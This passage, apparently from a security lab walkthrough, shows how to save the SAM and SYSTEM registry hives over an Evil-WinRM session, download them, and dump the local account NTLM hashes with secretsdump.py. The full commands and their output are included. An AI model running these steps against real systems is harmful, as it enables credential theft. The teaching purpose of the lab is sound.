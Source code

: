 
        

We then proceed to make a backup of SAM and SYSTEM files and download them to our attacker machine:

```

AttackBox

*Evil-WinRM* PS C:\> reg save hklm\system system.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> download system.bak
    Info: Download successful!

*Evil-WinRM* PS C:\> download sam.bak
    Info: Download successful!

        


```

Note: If Evil-WinRM takes too long to download the files, feel free to use any other transfer method.

With those files, we can dump the password hashes for all users using secretsdump.py or other similar tools:

```

AttackBox

user@AttackBox$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x41325422ca00e6552bb6508215d8b426
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1cea1d7e8899f69e89088c4cb4bbdaa3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9657e898170eb98b25861ef9cafe5bd6:::
thmuser1:1011:aad3b435b51404eeaad3b435b51404ee:e41fd391af74400faa4ff75868c93cce:::
[*] Cleaning up...

        


```
